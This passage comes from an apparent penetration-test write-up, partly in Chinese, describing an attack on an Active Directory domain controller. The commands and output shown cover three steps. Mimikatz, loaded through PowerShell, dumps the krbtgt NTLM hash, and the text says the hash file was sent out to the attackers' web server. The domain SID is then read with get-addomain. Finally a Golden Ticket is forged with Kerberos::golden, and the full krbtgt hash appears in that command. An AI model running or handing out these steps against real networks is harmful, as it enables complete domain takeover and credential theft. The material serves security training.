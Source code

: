 

```
invoke-mymy -command ‘privilege::debug “LSADump::LSA /inject”‘ &gt; hash.txt
The mimikatz script was without the auto-invoke command at the end of the file. We exfiltrated the hash file to our web server. This was its content:
RID : 000001f6 (502)
User : krbtgt
* Primary
LM :
NTLM : 3003567af268a4aXXXXXXXXXXXXXXXXX
Using get-addomain cmdlet, which is automatically imported on Domain Controllers, we got the domain SID:
PS C:test&gt; get-addomain
AllowedDNSSuffixes : `{``}`
ChildDomains : `{``}`
ComputersContainer : CN=Computers,DC=supercompany,DC=local
DeletedObjectsContainer : CN=Deleted Objects,DC=supercompany,DC=local
DistinguishedName : DC=supercompany,DC=local
DNSRoot : supercompany.local
DomainControllersContainer : OU=Domain
Controllers,DC=supercompany,DC=local
DomainMode : Windows2012R2Domain
DomainSID : S-1-5-21-3534665177-2148510708-2241433719
…
```

注意：我们可以从由mimikatz获得的管理员（其uid = 500）获取域SID：

```
S-1-5-21-3534665177-2148510708-2241433719-500
```

现在是时候创建我们的Golden Ticket了



```
invoke-mymy -command ‘”privilege::debug” “Kerberos::golden /admin:Administrator /domain:supercompany.LOCAL /sid:S-1-5-21-3534665177-2148510708-2241433719 /krbtgt:3003567af268a4a94e26f410e84353f1 /ticket:admin.krb”‘
.#####. mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. “A La Vie, A L’Amour”
## /  ## /* * *
##  / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
‘## v ##’ http://blog.gentilkiwi.com/mimikatz     (oe.eo)
‘#####’     with 20 modules * * */
mimikatz(powershell) # privilege::debug
Privilege ’20’ OK
mimikatz(powershell) # Kerberos::golden /admin:Administrator /domain:supercompany.LOCAL /sid:S-1-5-21-3534665177-2148510708-2241433719 /krbtgt:3003567af268a4a94e26f410e84353f1 /ticket:admin.krb
User     : Administrator
Domain    : supercompany.LOCAL (SUPERCOMPANY)
SID     : S-1-5-21-3534665177-2148510708-2241433719
User Id : 500
Groups Id : *513 512 520 518 519
ServiceKey: 3003567af268a4a94e26f410e84353f1 – rc4_hmac_nt
Lifetime : 2/17/2017 4:02:10 PM ; 2/17/2027 4:02:10 PM ; 3/3/2027 4:02:10 PM
-&gt; Ticket : admin.krb
* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated
```

